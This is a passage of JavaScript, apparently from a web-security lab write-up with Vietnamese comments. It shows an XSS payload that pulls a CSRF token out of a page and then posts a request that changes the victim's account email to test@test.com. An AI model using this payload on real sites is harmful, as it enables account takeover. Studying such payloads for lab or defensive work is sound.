    req.send();
    //Lấy csrf token
    function handleResponse() {
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var changeReq = new XMLHttpRequest();
        //Gửi form với csrf token và email mới
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf='+token+'&email=test@test.com')
    };
</script>
```


